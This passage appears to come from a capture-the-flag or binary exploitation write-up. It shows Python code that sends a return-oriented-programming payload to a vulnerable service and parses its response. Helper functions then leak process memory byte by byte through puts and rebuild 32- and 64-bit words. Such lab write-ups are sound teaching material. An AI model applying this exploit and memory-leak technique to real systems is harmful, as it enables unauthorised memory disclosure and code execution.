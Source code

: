 ```python
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret
        0x00400704, # ret

        0x00400520, # entry point again
        )

    s7.sendbinline(payload)

    s7.tryexpect("If you're cool you'll get a shell.\n"
                 "(.*)\n"
                 "Welcome Stranger\n"
                 "What is your password\?",
                  exitwithprogram=False
                 )

    if s7.match != None:
        result = s7.match.group(1)
    else:
        result = ""

    if not s7.isalive():
        raise 

    return result
```

This works, but must be handled with care because `puts` stops at the first null byte. To overcome this, when reading 32 or 64 bits words, the python code will leak one byte at a time, assuming the empty string is a zero, and then reassemble them in one little endian word:

```python
def upack(s):
    ss = s[:8]
    pad = bytes('\x00' * (8-len(ss)), 'utf-8')
    return struct.unpack('Q', ss + pad)[0]
    
def upleak1(address):
    r = upack(leak(address)[:1])    
    return r
    
def upleak_safe(address):
    result = 0

    for i in range(8):
        piece = upleak1(address+i)
        result = result | (piece << (i*8))

    return result

def upleak_safe_32(address):
    result = 0

    for i in range(4):
        piece = upleak1(address+i)
        result = result | (piece << (i*8))

    return result
```
